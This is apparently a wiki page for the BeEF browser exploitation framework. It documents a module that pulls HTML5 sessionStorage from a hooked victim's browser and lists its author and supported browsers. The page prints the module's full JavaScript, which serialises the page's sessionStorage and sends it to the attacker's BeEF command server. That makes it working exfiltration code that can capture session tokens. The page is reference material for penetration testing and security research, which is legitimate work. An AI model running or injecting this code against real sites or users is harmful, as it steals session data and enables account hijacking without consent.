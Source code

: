 ##Summary
* **Objective**: Extracts data from the HTML5 sessionStorage object.
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: IE 8+, Firefox 4? Opera 11+, Safari 4+
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_session_storage]]

##Internal Working

This module just gather the session Storage for this page using the window['sessionStorage'] function :

```javascript
beef.execute(function() {
    if ('sessionStorage' in window && window['sessionStorage'] !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "sessionStorage="+JSON.stringify(window['sessionStorage']));
    } else beef.net.send("<%= @command_url %>", <%= @command_id %>, "sessionStorage="+JSON.stringify("HTML5     sessionStorage is null or not supported."));
});
```

##Feedback
